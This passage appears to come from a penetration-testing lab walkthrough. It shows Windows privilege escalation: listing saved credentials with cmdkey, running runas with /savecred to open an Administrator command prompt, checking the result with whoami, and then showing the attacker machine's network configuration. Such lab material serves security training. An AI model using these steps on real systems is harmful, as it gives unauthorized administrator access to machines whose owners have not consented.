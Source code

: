 ```
  To delete existing credentials:
     cmdkey /delete:targetname

  To delete RAS credentials:
     cmdkey /delete /ras
```

`cmdkey /list`:
```
Currently stored credentials:

    Target: Domain:interactive=PRIV-ESC\Administrator
    Type: Domain Password
    User: PRIV-ESC\Administrator ←
```

**Explanation:** The `cmdkey /list` command reveals that credentials for the `Administrator` account are stored on the machine. These stored credentials can be used to perform actions as the `Administrator` without needing to re-enter the password.

_Use the stored credentials to run a command prompt as the Administrator._

`runas.exe /user:Administrator /savecred cmd.exe`:
```
Attempting to start cmd.exe as user "PRIV-ESC\Administrator" ... ←
```

**Explanation:** The `runas.exe` command uses the stored credentials to open a command prompt with `Administrator` privileges. The `savecred` option leverages the saved credentials without prompting for the password.

_Verify that the user has changed to Administrator._

`whoami`:
```
priv-esc\administrator ←
```

_Exit the Administrator command prompt._

`exit`

<span style="color: #e57373;">**Attacker machine**</span>.

_Check the network configuration of the attacker machine._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.3  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:03  txqueuelen 0  (Ethernet)
        RX packets 5795  bytes 457175 (446.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 5404  bytes 2382635 (2.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.39.3  netmask 255.255.255.0  broadcast 10.10.39.255 ←
        ether 02:42:0a:0a:27:03  txqueuelen 0  (Ethernet)
        RX packets 16  bytes 1160 (1.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 20294  bytes 16842475 (16.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
```